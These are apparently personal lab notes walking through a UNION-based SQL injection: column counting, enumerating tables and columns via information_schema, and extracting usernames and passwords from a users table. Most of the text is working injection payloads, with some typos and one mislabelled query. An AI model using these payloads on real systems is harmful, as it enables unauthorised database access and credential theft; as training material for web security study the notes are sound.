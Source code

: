 # Listing contents of database

to list tables in database query

```
select * from information_schema.tables
```

to list cloumns in individual tables

```
select * from information_schema.tables where table_name = 'Users'
```

end goal : listing the database contents

finding number of columns
```
' order by 1--
' order by 2--
```
got to columns

Now for checking string
```
' union select a,NULL from information_schema.tables--

' union select a, a from information_schema.tables--

' union select NULL,a from information_schema.tables-- //error 
```

finding table name in database

```
' union select table_name,NULL from infromation_schema.tables-- 
```
got all tables name and column 

users_balexb

query to retireve data from this column

```
' union select column_name, NULL from information_schema.columns where table_name='users_balexb'-- 
```

got the cloumns for password and username

```
' union select username_reukez, password_llqvfh from users_balexb-- 
```
 
 got the password

